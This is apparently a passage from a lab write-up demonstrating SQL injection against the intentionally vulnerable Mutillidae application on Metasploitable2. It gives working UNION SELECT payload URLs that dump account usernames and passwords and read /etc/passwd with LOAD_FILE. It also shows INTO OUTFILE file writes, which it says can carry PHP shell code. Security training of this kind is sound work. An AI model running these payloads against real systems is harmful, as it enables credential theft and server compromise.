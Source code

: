 Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Karthikeyan21001828/sqlinjection/assets/93427303/0f19e88e-5091-4e09-a788-ab4cacdcb145)


## Reading and writing files on the web-server

We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and 

passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Karthikeyan21001828/sqlinjection/assets/93427303/9ecb843f-8926-48bc-8eba-80215d962ad0)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the 

“/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.

Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
